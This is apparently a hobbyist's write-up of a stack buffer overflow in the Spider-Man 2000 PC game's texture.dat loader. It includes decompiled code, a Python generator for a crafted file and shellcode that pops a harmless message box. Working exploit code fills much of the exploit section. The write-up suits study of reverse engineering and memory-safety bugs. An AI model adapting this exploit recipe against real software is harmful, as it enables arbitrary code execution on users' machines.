

Exploiting: Spiderman 2000 - Buffer overflow in file loading routine
Background
At the end of this year(2019) I decided to completly reverse engineer the game Spider-Man 2000 for the PC in order to be able to fix all of its problems and possibly port it to more architectures and OS(es).
During my second stream I was working on the routine that loads the file texture.dat and noticed that the buffer not only in allocated in the stack but there's no boundary check.
texture.dat is a file that exists in the game's directory and apparents to be useless since the lack of it doesn't cause any harm to the game or experience.
The vulnerability
sub_5163E0 calls sub_516250 to load texture.dat and passes a local variable as a buffer.
int __cdecl sub_5163E0(char *a1)
{
int v2; // [esp+0h] [ebp-224h]
int Buffer; // [esp+4h] [ebp-220h]
char v4; // [esp+8h] [ebp-21Ch]
char v5; // [esp+Bh] [ebp-219h]
int v6; // [esp+24h] [ebp-200h]
if ( a1 )
*a1 = 0;
if ( !sub_516250(&Buffer, aTextureDat) )
return 2;
(...)
}
As can be seen below, this buffer only has 0x220 bytes.
.text:005163E0 Buffer = dword ptr -220h
.text:005163E0 var_21C = byte ptr -21Ch
.text:005163E0 var_219 = byte ptr -219h
.text:005163E0 var_200 = dword ptr -200h
.text:005163E0 arg_0 = dword ptr 4
.text:005163E0
.text:005163E0 sub esp, 220h
.text:005163E6 push esi
.text:005163E7 mov esi, [esp+224h+arg_0]
.text:005163EE test esi, esi
.text:005163F0 jz short loc_5163F5
.text:005163F2 mov byte ptr [esi], 0
.text:005163F5
.text:005163F5 loc_5163F5: ; CODE XREF: sub_5163E0+10?j
.text:005163F5 lea eax, [esp+224h+Buffer]
.text:005163F9 push offset aTextureDat ; "texture.dat"
.text:005163FE push eax ; lpBuffer
.text:005163FF call sub_516250
.text:00516404 add esp, 8
.text:00516407 test eax, eax
.text:00516409 jnz short loc_516415
.text:0051640B mov al, 2
.text:0051640D pop esi
.text:0051640E add esp, 220h
.text:00516414 retn
Here's the relevant part of the loading:
LPVOID __cdecl sub_516250(LPVOID lpBuffer, char *a2)
{
(...)
v9 = CreateFileA(Filename, 0x80000000, 1u, 0, 3u, 0, 0);
v10 = v9;
if ( v9 == (HANDLE)-1 )
return 0;
v11 = GetFileSize(v9, 0);
v12 = v11;
//The only check it does is wether the number doesn't have the last 2 bits set and if it's bigger than 4
if ( v11 < 4 || v11 & 3 )
{
CloseHandle(v10);
return 0;
}
ReadFile(v10, lpBuffer, v11, &NumberOfBytesRead, 0);
CloseHandle(v10);
if ( NumberOfBytesRead < v12 )
return 0;
*(_DWORD *)lpBuffer = v12 >> 2;
//Returns an array of size 0x190 that contains the decryption key
v13 = sub_4FC230();
v14 = v12 - 4;
v15 = 0;
//Decrypts texture.dat
if ( v14 )
{
do
{
*((_BYTE *)lpBuffer + v15 + 4) ^= v13[v15 % 0x190];
++v15;
}
while ( v15 < v14 );
}
return lpBuffer;
}
Having a texture.dat of size 0x224 is enough to trigger the vulnerability.
Exploiting
NOTE: All the code for the generator is available in my spidey-tools repository.
Out of the 0x224 bytes the first 4 are dedicated to the file size and last 4 to the jump address. So that results in 0x21C for the shellcode which is more than enough for a simple PoC.
texture.dat generator
The script creates a list that latter is converted to a bytearray and then dumped to disk.
The way the list is generated is as follows:
- Creates 4 dummy bytes
- Adds the shellcode
- Adds the string "*Game has been pwned":
- Adds dummy bytes until
0x220is reached - Adds the jump address
Finally it is encrypted(XOR is symmetric) and then dumped to disk.
Code:
byt = open("xor_key.bin", "rb").read()
final = "\x00\x00\x00\x00\x6A\x00\x6A\x00\x68".encode()
final = [e for e in final]
final.append(0x26)
final.append(0xFC)
final.append(0x19)
final.append(0x00)
final.append(0x6A)
final.append(0x00)
final = [e for e in final]
final.append(0xB8)
final.append(0xC8)
final.append(0x59)
final.append(0x51)
final.append(0x00)
final.append(0xFF)
final.append(0xE0)
pwn_str = "Game has been pwnd\x00".encode()
for e in pwn_str:
final.append(e)
while len(final) != 0x220:
final.append(0x61)
final.append(0x14)
final.append(0xFC)
final.append(0x19)
final.append(0x00)
final = bytearray(bytes(final))
for index,_ in enumerate(final[4:]):
final[4+index] ^= byt[index%0x190]
with open("texture.dat", "wb") as f:
f.write(final)
The string with the hex characters - \x00 - must respect the utf-8 encoding. That caused lots of problems, that the string \xB8 would be converted to \xC2\xB8, that is why I split the logic.
Shellcode
Since this exploit has a lack usefulness I decided to keep it simple and just spawn a MessageBox.
Here's the full shellcode:
6A 00 | push 0 |
6A 00 | push 0 |
68 26FC1900 | push 19FC26 | 19FC26:"Game has been pwnd"
6A 00 | push 0 |
B8 C8595100 | mov eax,spideypc.5159C8 |
FFE0 | jmp eax |
The address spideypc.5159C8 contains a call to MessageBoxA followed by a _exit(1) which was perfect for this case.
Result

Video of process
If you're interested in seeing how this process unfolded then you can watch the two VODs.
Here I stumbled upon the problem but don't go super deep:
Stream dedicated to developing the exploit: